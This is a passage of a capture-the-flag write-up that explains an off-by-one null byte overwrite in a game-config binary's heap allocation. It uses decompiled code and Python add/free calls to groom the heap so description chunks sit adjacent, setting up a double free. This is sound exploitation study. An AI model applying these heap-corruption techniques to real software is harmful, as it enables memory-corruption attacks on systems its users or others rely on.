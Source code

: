 ### Null byte overwrite vulnerability
Looking at the binary in _Ghidra_ we notice in the function that creates a new config that once the game description is longer or equal to the chosen description size _n_ it is terminated by a null byte at the _n+1st_ position. However malloc allocates a chunk of size _n_ and then writes _n+1_ bytes. 
{: .text-justify} 
```c
if (*(uint *)(__dest + 0x28) <= (uint)sVar5) {		# length of the description is say 0x30 
	local_428[*(uint *)(__dest + 0x28)] = '\0'; 	# It contains 0x30 bytes of data + \x00
}
pvVar4 = malloc((ulong)*(uint *)(__dest + 0x28));	# allocates 0x30 bytes of data
while( true ) { 
	sVar6 = strlen(local_428);			# sets sVar6 to 0x31 bytes 
	if (sVar6 < (ulong)(long)counter) break; 
	*(char *)(counter + lVar1) = local_428[counter];# writes 0x31 bytes  
	counter = counter + 1;
}
```
### Aligning game descriptions adjacent
In order to be able to abuse the null byte overwrite we need two adjacent chunks. To illustrate how to accomplish this, we use _gdb_ to look at the heap and get an understanding of how the allocated chunks look like in memory.<br/>
For this we create a sample of two configs of size 0x38 and write 0x38 bytes of data into the name of the config as well as into the description and look then at the chunks in memory:
{: .text-justify}
```python
add(0x38, "A"*0x38, "A"*0x38)	# A's will be 41 in memory. The only constraint to the chunk
add(0x38, "B"*0x38, "B"*0x38)	# size is that it has to be congruent 8 modulo 16.
```
{% include figure image_path="/assets/images/playerTwo/Chunk1.png" alt="this is a placeholder image" caption="The fd/bk pointer of the chunk in the unsorted bin points into the main arena of libc." %}
{% include figure image_path="/assets/images/playerTwo/Chunk2.png" alt="this is a placeholder image" caption="Illustrating the null byte overwrite." %}
So to get two descriptions adjacent I thought that since the config name always needs a chunk of size 0x30 of usable size (which is 0x41 in memory): If I allocate one or two configs with description size 0x30 and free them the next configs with description sizes bigger than 0x30 might use the just freed 0x30 chunks but allocate the descriptions after all the previously allocated chunks. The code and result might clarify what I just tried to explain with words:
{: .text-justify} 
```python
add(0x38, "A"*0x38, "A"*0x38)	# A's will be 41 in memory
add(0x38, "B"*0x38, "B"*0x38)	# B's 42, 0x38 = 3*16+8 = 56 bytes
free(1)
free(0)
add(0x48, "C"*0x48, "C"*0x20)	# allocating two chunks with a size bigger than 0x30
add(0x68, "C"*0x68, "C"*0x20)	# but also with a size%16=8 
```
{% include figure image_path="/assets/images/playerTwo/Chunk3.png" alt="this is a placeholder image" caption="Game descriptions being adjacent - the setup needed for the double free." %}

